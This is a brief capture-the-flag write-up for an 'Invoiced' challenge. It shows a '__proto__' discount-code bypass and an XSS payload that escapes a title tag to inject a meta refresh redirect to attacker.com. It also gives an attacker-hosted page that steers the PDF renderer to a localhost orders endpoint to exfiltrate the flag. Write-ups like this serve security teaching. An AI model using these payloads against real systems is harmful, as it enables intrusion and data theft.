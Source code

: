 # Invoiced
## Purchasing
Due to a unfortunate mistake on my part, which I discovered too late, the `FREEZTUFSSZ1412` discountcode that I used for testing, was released in the source download. This step was therefore trivially bypassed.
The real challenge assumed that you didn't know it or that there was only a 20% discount.
<details>
  <summary>The solution to that would have been:</summary>
  
  Use the discountcode `__proto__`.

</details>

## Exfiltrating flag
The /renderInvoice used to generate the HTML for the PDF was vulnerable to XSS, but had a CSP to prevent any harm. It was also vulnerable to XSS in the head section, meaning that redirection with META tags could occur.
This allows an attacker to enter a name like:
```
test</title><meta http-equiv="refresh" content="0; url=https://attacker.com">
```
on which a website hosting the following is served:
```html
<html>
    <body>
        <script>document.location.href="http://localhost:5000/orders"</script>
    </body>
</html>
```
